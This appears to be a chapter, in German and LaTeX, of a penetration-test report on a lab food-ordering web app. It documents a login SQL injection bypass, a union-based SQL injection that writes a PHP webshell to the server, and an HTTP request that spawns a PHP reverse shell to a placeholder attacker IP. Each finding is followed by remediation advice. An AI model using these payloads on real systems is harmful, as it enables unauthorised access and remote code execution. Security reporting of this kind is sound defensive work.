\chapter{Grüner Drache}
Die Webanwendung \textit{Grüner Drache} ist eine Webanwendung für einen Bestellservice. Benutzer können über ein Formular Essen und Getränke bestellen. Die Webanwendung ist unter der URL \url{http://10.0.68.105} zu finden. Ein Screenshot der Startseite mit dem Login-Formular ist in \autoref{fig:02_gruener_drache} abgebildet.

\vfill
\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/screenshots/04_gruener_drache.png}
    \caption{Webanwendung Grüner Drache}
    \label{fig:02_gruener_drache}
\end{figure}
\vfill
\newpage

\cvss{av=local, ac=low, pr=none, ui=required, s=changed, c=high, i=low, a=low}
\cvssdescription{SQL-Injection im Anmeldeformular führt dazu, dass sich Angreifer als Administrator ohne gültige Credentials einloggen können.}

\section{\makecvssbadge SQL-Injection}
\cvssaddtosummary{Grüner Drache: SQL Injection}

\subsection*{Proof of concept}

Mit Hilfe einer SQL-Injection im Anmeldeformular der Webanwendung kann ein Zugriff als Administrator erlangt werden. Der Angriffsvektor für diesen Angriff ist \texttt{admin} als Benutzername und \texttt{' OR ''='} als Passwort. Über diesen Admin-Zugang können nach der Registrierung weitere Standardbenutzer verifiziert bzw. freigeschaltet werden.

\subsection*{Empfehlungen} 
\begin{itemize}
    \item Eingabevalidierung: Validieren und escapen Sie alle Benutzereingaben, um Injection-Angriffe zu verhindern (siehe \cite{owaspInputValidation}).
    \item Prepared SQL-Statements: Mit Hilfe von Prepared SQL-Statements können SQL-Injection Angriffe verhindert werden, da dadurch Eingaben korrekt validiert und escaped werden (siehe \cite{owaspSQLInjectionPrevention}).
\end{itemize}

\cvss{av=network, ac=low, pr=none, ui=required, s=changed, c=high, i=high, a=high}
\cvssdescription{Über eine Union-Based SQL-Injection beim Abbrechen einer Bestellung kann eine Webshell auf den Webserver hochgeladen werden.}

\section{\makecvssbadge Union-Based SQL-Injection und Remote Code Execution (RCE)}
\cvssaddtosummary{Grüner Drache: Union-Based SQL-Injection und Remote Code Execution (RCE)}

\subsection*{Proof of concept}
Zuerst muss ein Benutzer eine Bestellung aufgeben, die dann vom Admin bestätigt werden kann. Anschließend muss die Bestellung durch den Benutzer storniert werden, wobei ein unsicheres PHP-Skript ausgeführt wird. Der initiale HTTP-Post kann abgefangen und die Payload dieser Nachricht so verändert werden, dass eine WebShell mit dem SQL-Befehl hochgeladen werden kann. Die modifizierte Payload mit der Union-Based SQL Injection ist in der \autoref{listing:drache:webshell} zu finden. 

Die hochgeladene Webshell ist unter der URL \texttt{http://10.0.68.105/shell5.php} erreichbar. Über den Post-Parameter \texttt{cmd} können nun Befehle auf dem Webserver ausgeführt werden. Dadurch kann eine PHP Reverse Shell erzeugt werden, die dem Angreifer vollen Zugriff über den Webserver ermöglicht. Für diese Reverse Shell muss zunächst ein Netcat-Listener auf dem Angreifer-System gestartet werden (siehe \autoref{listing:netcat-listener}). Danach kann über die Webshell die Reverse Shell initiiert werden, der HTTP-Request dazu befindet sich in \autoref{listing:drache:reverse-shell}. Ein Nachweis ist in \autoref{fig:02_gruener_drache_proof} dargestellt.

\begin{listing}[!ht]
\begin{minted}{bash}
POST /routers/cancel-order.php HTTP/1.1 
Host: 10.0.68.105 
[...]
id=5+UNION+Select+null,null,null,+"<%3fphp+system($_REQUEST['cmd'])%3b+%3f>",+null,null, null,null,null+into+outfile+'/var/www/food-ordering-system/shell5.php'&status= Cancelled+by+Customer&payment_type=Wallet&action=
\end{minted}
\caption{Webshell}
\label{listing:drache:webshell}
\end{listing}

\begin{listing}[!ht]
\begin{minted}{bash}
GET /shell5.php?cmd=php+-r+'$sock%3dfsockopen("<Angreifer-IP>",9001)%3bexec("/bin/sh+-i +<%263+>%263+2>\%263")%3b' HTTP/1.1
Host: 10.0.68.105 
[...]   
\end{minted}
\caption{Reverse Shell insertion}
\label{listing:drache:reverse-shell}
\end{listing}

\begin{figure}[!ht]
    \centering
    
\includegraphics[width=\linewidth]{images/proofs/02_gruener_drache_proof.png}
    \caption{Proof für die Webanwendung Grüner Drache}
    \label{fig:02_gruener_drache_proof}
\end{figure}

\subsection*{Empfehlungen} 
\begin{itemize}
    \item Eingabevalidierung: Validieren und escapen Sie alle Benutzereingaben, um Injection-Angriffe zu verhindern (siehe \cite{owaspInputValidation}).
    \item Prepared SQL-Statements: Mit Hilfe von Prepared SQL-Statements können SQL-Injection Angriffe verhindert werden, da dadurch Eingaben korrekt validiert und escaped werden (siehe \cite{owaspSQLInjectionPrevention}).
\end{itemize}
